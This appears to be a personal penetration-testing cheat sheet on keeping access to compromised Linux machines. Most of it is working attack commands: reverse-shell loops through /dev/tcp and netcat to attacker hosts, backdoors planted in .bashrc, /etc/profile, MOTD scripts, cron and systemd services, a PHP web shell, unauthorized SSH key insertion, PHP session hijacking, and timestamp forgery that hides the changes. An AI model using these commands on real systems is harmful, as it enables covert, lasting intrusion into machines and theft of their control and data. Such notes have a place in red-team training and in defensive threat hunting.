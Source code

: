 # Linux Persistence

For general overview of persistence that OS neutral: [[Persistence]].
![1080](linux-persistence-map.png)
[Credit: pberda.github/io](https://pberba.github.io/security/2021/11/22/linux-threat-hunting-for-persistence-sysmon-auditd-webshell/)
#### Nohup

Use `nohup` - no hang up in a script to make call back.  
```bash
#!/bin/bash
while true; do
    nohup bash -i >& /dev/tcp/$ip/443 0>&1;
    sleep 10;
done
```


#### Ippsec Timestamp checking

Find all timestamps as [[Linux-Blueteam]], with `touch` `cp` the persistence mechanicism with `touch`
```bash
ls -lt --time-style=full-iso# Displys all timestamps
find / -type f -printf "%T+ %p\n" | grep -v 00000000
touch original_lib_file -r persistence_file
```

#### .rc Aliasing

```bash
# If have sudo or permission to propagate to all usersasdasd
echo "alias PEST='($revershell_goes_here)'" | sudo tee -a /etc/profile
# consider .zshrc or dash.rc
echo "alias PEST='($revershell_goes_here)'" | sudo tee -a /home/$USER/.bashrc 
```

#### MOTD you got pwned

```bash
# When anyone logs in 
echo "$reversehell_goes_here" | sudo tee -a /etc/update-motd.d/00-header
```

#### SSH Keys
It's not very hidden, easy to remove or detect. - https://attack.mitre.org/techniques/T1098/
```bash
# Generate on host; provide some fields
ssh-keygen  
# target machine:
# cat public key on host and echo it into .ssh/authorized_keys
mkdir .ssh
echo "ssh-rsa $base64fromkey" > .ssh/authorized_keys
chmod 600 id_rsa
```

#### php
1. in web root `/var/www/html`
2. `touch shell.php` and add the below:
2. Or add within a file of this directory
1. Change the 'cmd' parameter to something that LESS like to be called 
```php
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```

#### stealing php session
```bash
/var/lib/php/sessions # defauilt locations
sess_<SESSION_ID> # set your PHPSESSID cookie to hijack
```
Session files and cookie name are configurable in php.ini:
```php
session.save_path
session.name
```

#### Cron

Some reference mentioned need for newlines, I have found that it is not always the case
```bash
# newlines required
CT="\n1 * * * *   root    ./dev/shm/met.elf\n"
printf "$CT" | crontab -
```

As a one-liner (probably newlines do not matter)
```bash
root> echo "* * * * * root bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'" | tee - a/etc/crontab
```

Serve shell script, for example:
```bash
#!/bin/bash
bash -i >& /dev/tcp/ip/port 0>&1
```
.bashrc
```bash
echo 'bash -i >& /dev/tcp/$ip/$port 0>&1' >> ~/.bashrc
```
OR `pam_unix.so` [pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)

```bash
# Variable just for easy reading.
REVSHELL="rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1337 >/tmp/f"
(crontab -l ; echo "@reboot sleep 200 && $REVSHELL")|crontab 2> /dev/null
```

#### `systemd`

[[Systemd]] is sytemd'ees-nuts for many *potential* reasons (that I probably cannot verify and ) it is pretty controversial in number of subgroups, distributions, etc. [[Systemd-Controversies]], like any to neutrality and to aid in not have to remember and lookup why X ?(maybe)=Y see that page

[From this article Systemd persistence](https://medium.com/@alexeypetrenko/systemd-user-level-persistence-25eb562d2ea8)
```bash
touch ~/.config/system/root/persistence.service
# Make p.service 
[Unit]  
Description=Just a reverse shell

[Service]  
ExecStart=/usr/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/8008 0>&1'  
Restart=always  
RestartSec=60

[Install]  
WantedBy=default.target
```

Enable and start service
```bash
systemctl --user enable persistence.service
systemctl --user start persistence.service 
# systemd --user only started on login
# Configure with root run:
loginctl enable-linger
# Check if already set:
/var/lib/systemd/linger/$username_is_here_if_enabled
```


## References

[Ippsec Rocks, youtube video](https://www.youtube.com//watch?v=yaV09XCDDqI&t=390s)
[9-ways-to-backdoor-a-linux-box](https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c) -  Backdoors
[creating-backdoor-in-pam](http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html) - pam unix backdoors
[linuxbackdoors](https://tryhackme.com/room/linuxbackdoors) - Backdoors
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Linux - Persistence.md)
[Mitre Persistence](https://attack.mitre.org/techniques/T1098)
[Alexey Petrenko's Systemd persistence](https://medium.com/@alexeypetrenko/systemd-user-level-persistence-25eb562d2ea8)
[pberda.github/io Article and Persistence Map](https://pberba.github.io/security/2021/11/22/linux-threat-hunting-for-persistence-sysmon-auditd-webshell/)